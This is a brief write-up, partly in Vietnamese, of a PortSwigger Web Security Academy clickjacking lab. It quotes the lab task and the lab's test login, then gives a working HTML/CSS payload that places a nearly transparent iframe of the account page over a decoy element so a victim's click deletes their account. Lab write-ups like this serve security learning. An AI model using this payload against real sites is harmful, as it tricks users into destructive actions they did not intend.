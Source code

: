 # [Portswigger] Clickjacking

***

## 1. Lab: Basic clickjacking with CSRF token protection

* Content:
```
This lab contains login functionality and a delete account button that is protected by a CSRF token. A user will click on elements that display the word "click" on a decoy website.

To solve the lab, craft some HTML that frames the account page and fools the user into deleting their account. The lab is solved when the account is deleted.

You can log in to your own account using the following credentials: wiener:peter
```
* Exploit:

Dùng payload sau cho vào Exloit Server:
```
<style>
    iframe {
        position:relative;
        width: 700px;
        height: 700px;
        opacity: 0.1;
        z-index: 2;
    }
    div {
        position:absolute;
        top: 500px;
        left: 60px;
        z-index: 1;
    }
</style>
<div>Test me</div>
<iframe src="https://0a90004b0435b5e0b296118200d200a0.web-security-academy.net/my-account"></iframe>
```

Khi view Exploit ta sẽ thấy phần chữ "Click" ở đúng vi trí của "Delete Account"

<img width="355" alt="image" src="https://github.com/nguyenkhai98/nguyenkhai98.github.io/assets/51147179/4406580c-ec8f-4054-a46c-5489dba2189a">

LAB SOLVED!

<img width="594" alt="image" src="https://github.com/nguyenkhai98/nguyenkhai98.github.io/assets/51147179/532f04d4-86bb-49a1-aae0-af88ae23fa1f">
